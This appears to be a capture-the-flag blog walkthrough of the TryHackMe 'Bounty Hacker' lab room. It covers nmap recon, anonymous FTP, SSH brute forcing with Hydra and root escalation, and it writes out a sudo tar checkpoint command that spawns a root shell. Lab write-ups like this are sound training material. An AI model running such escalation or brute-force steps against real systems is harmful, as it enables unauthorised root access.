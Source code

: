 ```yaml
---
title: TryHackMe Bounty Hacker
date: 2021-08-20T23:29:16+05:30
lastmod: 2021-08-20T23:29:16+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
cover: /img/thm.gif # for tryhackMe

categories:
  - TryHackMe
tags:
  - tryhackme
  - rooms
  - thm

draft: false
description: TryHackMe Room Bounty Hacker solved by Animesh Roy. this is a walkthough. read more...

---
```


## OverView

|||
|---|---|
| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|Bounty Hacker|![logo](https://tryhackme-images.s3.amazonaws.com/room-icons/9ad38a2cc31d6ae0030c888aca7fe646.jpeg)|
| <b> Room [Subscription Required] </b>| [Bounty Hacker](https://tryhackme.com/room/cowboyhacker)|

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!

## Recon

### nmap

     sudo nmap -sC -sV -oN nmap/init 10.10.60.197                                                                  1 ⨯
     [sudo] password for anir0y: 
     Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-20 23:33 IST
     Nmap scan report for 10.10.60.197
     Host is up (0.17s latency).
     Not shown: 967 filtered ports, 30 closed ports
     PORT   STATE SERVICE VERSION
     21/tcp open  ftp     vsftpd 3.0.3
     | ftp-anon: Anonymous FTP login allowed (FTP code 230)
     | -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
     |_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
     | ftp-syst: 
     |   STAT: 
     | FTP server status:
     |      Connected to ::ffff:10.17.4.40
     |      Logged in as ftp
     |      TYPE: ASCII
     |      No session bandwidth limit
     |      Session timeout in seconds is 300
     |      Control connection is plain text
     |      Data connections will be plain text
     |      At session startup, client count was 4
     |      vsFTPd 3.0.3 - secure, fast, stable
     |_End of status
     22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
     | ssh-hostkey: 
     |   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
     |   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
     |_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
     80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
     |_http-server-header: Apache/2.4.18 (Ubuntu)
     |_http-title: Site doesn't have a title (text/html).
     Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

     Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
     Nmap done: 1 IP address (1 host up) scanned in 23.41 seconds

## Flags

|Flag|question|ref|
|---|---|---|
|1|Deploy the machine.|`N/A`|
|2|Find open ports on the macine|`N/A`|
|3|Who wrote the task list?|[ref](#33)|
|4|What service can you bruteforce with the text file found?|`SSH`|
|5|What is the users password? |[SSH-BruteForce](#35-ssh-bruteforce)|
|6|user.txt|[user](#usertxt)|
|7|root.txt|[root]()|

---
<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

### 3.3 FTP Enum

* ftp
  
  ![img](https://i.imgur.com/nVgnO6E.png)

* download `txt` file and read the content:

  ![img](https://i.imgur.com/7oa40G3.png)

### 3.5 SSH bruteforce

* Hydra Bruteforce
  
  ![img](https://i.imgur.com/MD96enN.png)

### User.txt

* SSH into box with found creds.
* read the `user.txt` file in desktop:
  
  ![img](https://i.imgur.com/oBwRPRn.png)

### Root.txt

* reading `sudo -l`

     ```bash
     lin@bountyhacker:~$ sudo -l
     [sudo] password for lin: 
     Matching Defaults entries for lin on bountyhacker:
     env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

     User lin may run the following commands on bountyhacker:
     (root) /bin/tar
     ```

* we can run tar app as a root. Let's go to [gtfobins](https://gtfobins.github.io/gtfobins/tar/#sudo) and get the sudo exploit for tar. If you can't find it, here type:-
  
     `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

* Priv-Esc
  
     ![img](https://i.imgur.com/VqPz7Vu.png)
  
![footer](https://i.imgur.com/rCDF5u6.png)

---
<!-- Google Ads -->

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->


<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

<!-- EOF -->
